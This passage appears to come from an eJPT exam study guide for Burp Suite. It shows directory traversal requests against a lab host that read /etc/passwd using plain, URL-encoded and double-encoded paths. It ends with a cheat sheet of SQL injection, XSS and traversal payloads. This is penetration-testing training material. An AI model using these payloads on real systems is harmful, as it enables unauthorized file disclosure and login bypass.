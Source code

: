```http
# Test 2: URL-encoded Directory Traversal
GET /view.php?file=..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: demo.ine.local

# Response: Same passwd file content
# SUCCESS: URL encoding bypass confirmed!
```

```http
# Test 3: Double-encoded Directory Traversal
GET /view.php?file=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: demo.ine.local

# Response: Same passwd file content  
# SUCCESS: Double encoding also works!
```

**📊 Attack Success Analysis:**
- **File System Access:** Can read any file on the system
- **Encoding Bypass:** Multiple encoding methods work
- **Information Disclosure:** System user accounts revealed
- **Privilege Information:** User roles and home directories visible

---

## 🎯 eJPT Exam Focus and Success Strategy

### **📊 How Important Burp Suite Is for eJPT:**

| Skill Area | Exam Weight | Time You Should Spend | Success Rate Needed |
|------------|-------------|----------------------|-------------------|
| **Proxy Setup** | 20% | 3-5 minutes | 100% |
| **Request Interception** | 25% | 5-10 minutes | 95% |
| **Payload Testing** | 30% | 10-15 minutes | 90% |
| **Response Analysis** | 25% | 5-10 minutes | 85% |

### **🏆 Essential Skills You Must Master:**

#### **Level 1 - Basic (You WILL see this):**
```bash
# Proxy configuration - FUNDAMENTAL
1. Launch Burp Suite → Temporary session
2. Configure FoxyProxy → Enable Burp profile  
3. Test traffic interception → Verify HTTP History

# Request modification - CORE SKILL
1. Intercept request → Send to Repeater
2. Modify parameters → Test payloads
3. Analyze responses → Identify vulnerabilities

# Basic vulnerability testing - ESSENTIAL
SQL Injection: admin' OR '1'='1'--
XSS Testing: <script>alert('XSS')</script>
Directory Traversal: ../../../etc/passwd
```
